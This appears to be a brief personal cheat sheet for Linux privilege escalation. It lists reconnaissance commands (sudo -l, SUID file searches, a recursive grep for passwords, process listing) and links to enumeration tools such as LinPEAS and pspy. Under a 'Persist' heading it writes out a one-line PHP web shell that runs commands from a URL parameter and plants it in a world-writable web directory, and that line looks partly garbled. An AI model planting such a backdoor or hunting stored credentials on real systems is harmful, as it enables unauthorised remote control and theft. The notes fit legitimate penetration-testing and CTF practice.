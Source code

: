 #### Recon Commands ####

```sudo -l```

```uname -a```

```find / -type f -perm -4000 2>/dev/null```

```grep -iRl password /opt/*```

?? or ??

```find / -perm -4000 -exec ls -l {} \;```

```ps aux```

```Run LSE```

> https://github.com/diego-treitos/linux-smart-enumeration

```run LinEnum.sh```

```run pspy32```

> https://github.com/DominicBreuker/pspy/blob/master/README.md

```Run LinPeas```

> https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

#### Persist ####

```echo "<?php passthru($_GET['cmd']); ?>" > /var/www/`find /var/www -perm -o+w` 1>/not-a-shell.php```


